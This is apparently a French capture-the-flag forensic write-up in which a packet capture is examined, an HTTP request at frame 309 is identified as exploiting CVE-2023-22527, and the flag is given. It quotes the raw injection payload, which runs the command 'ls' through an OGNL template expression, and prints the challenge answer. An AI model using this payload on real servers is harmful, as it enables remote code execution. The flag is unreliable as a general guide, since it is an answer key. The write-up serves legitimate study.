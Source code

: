 
![bibliotheque_3](bibliotheque_3.png)

![chall](bibliotheque_chall.pcapng)
## Résolution

On trouve notre attaque à la frame 309 : 
```
)6PVÀEJÑ¼@?ÛÀ¨À¨Ø´®±w³ÁÏö²s
bE?üsVlabel=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"ls"}))
```

Une recherche google dessus et on tombe sur  notre CVE : `CVE-2023-22527`
On récupère l’heure de reception du paquet en UTC : `Aug 15, 2024 22:51:08.931436000 UTC`

Et on modifie tout ça pour arrive au format attendu.


>[!question]- Spoiler du flag
> OPENNC{CVE-2023-22527_2024-08-15_22:51:08}

